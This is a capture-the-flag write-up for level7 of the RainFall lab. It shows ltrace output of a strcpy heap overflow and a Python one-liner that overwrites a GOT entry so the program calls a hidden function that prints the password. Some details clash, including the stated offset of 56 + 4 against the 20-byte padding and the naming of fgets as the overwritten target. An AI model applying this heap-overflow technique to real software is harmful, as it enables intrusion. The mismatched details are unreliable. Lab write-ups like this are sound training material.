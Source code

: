 This time we have a binary that makes a bunch of malloc calls in the main function, as well as a fopen on the pass file.

There is a fgets call to load the contents of the file but there doesn't seem to be a way to print it.

There is a puts call right after, we might swap the pointer in it or we might try and call m that does print the pointer after fgets has been done

Strcpy is used, this will be our entrypoint.

The first strcpy can be used to overflow the heap and change the value stored for the second strcpy

```
level7@RainFall:~$ ltrace ./level7 aaaaaaaaaaaaaaaaaaaaaaaa bbbbbbbbbbbbbbbbbbbbbbbbbbbbb
__libc_start_main(0x8048521, 3, 0xbffff7b4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                               = 0x0804a008
malloc(8)                                                                                               = 0x0804a018
malloc(8)                                                                                               = 0x0804a028
malloc(8)                                                                                               = 0x0804a038
strcpy(0x0804a018, "aaaaaaaaaaaaaaaaaaaaaaaa")                                                          = 0x0804a018
strcpy(0x61616161, "bbbbbbbbbbbbbbbbbbbbbbbbbbbbb" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Our offset will be 56 + 4, now we can copy something to a destination in memory.
Since we need the fgets to work properly, that only leaves fgets which address is 0x08049928
and we need to pass the m address at 0x080484f4

```
level7@RainFall:~$ ltrace ./level7 $(python -c 'print("A"*20 + "\x28\x99\x04\x08")') + $(python -c 'print("\xf4\x84\x04\x08")')
```
